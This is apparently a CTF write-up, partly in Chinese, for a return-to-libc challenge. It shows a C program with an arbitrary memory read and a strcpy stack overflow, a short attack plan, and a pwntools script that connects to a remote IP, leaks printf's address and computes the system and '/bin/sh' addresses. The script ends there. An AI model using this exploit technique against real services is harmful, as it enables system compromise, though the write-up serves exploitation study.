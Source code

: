 ```c

void See_something(unsigned int addr){
    int *address ;
    address = (int *)addr ;
    printf("The content of the address : %p\n",*address);
};

void Print_message(char *mesg){
    char buf[48];
    strcpy(buf,mesg);
    printf("Your message is : %s",buf);
}

int main(){
    char address[10] ;
    char message[256];
    unsigned int addr ;
    puts("###############################");
    puts("Do you know return to library ?");
    puts("###############################");
    puts("What do you want to see in memory?");
    printf("Give me an address (in dec) :");
    fflush(stdout);
    read(0,address,10);
    addr = strtol(address);
    See_something(addr) ;
    printf("Leave some message for me :");
    fflush(stdout);
    read(0,message,256);
    Print_message(message);
    puts("Thanks you ~");
    return 0 ;
}

```
源代码如上
只开了NX保护
有两次输入
No1：输入一个地址 返回其上内容 可以leak libc addr

No2：输入data将会strcpy到栈上 可以buffer overflow 


思路：

    利用第一个输入点泄露system地址
    第二个输入点利用buffer overflow 构造system 的 function call

exploit：
```
    from pwn import *
    p=remote('121.42.189.18',10004)
    printf_got=134520848
    offset=60
    print p.recvrepeat(1)
    p.sendline(str(134520848))
    data= p.recvuntil('\n')
    print data[-11:]
    printf_addr=int(data[-11:],16)
    log.info(hex(printf_addr))
    libc=ELF('./libc6_2.23-0ubuntu9_i386.so')
    base=printf_addr-libc.symbols['printf']
    libc.address=base
    bash=libc.search('/bin/sh').next()
    system_addr=libc.symbols['system']
```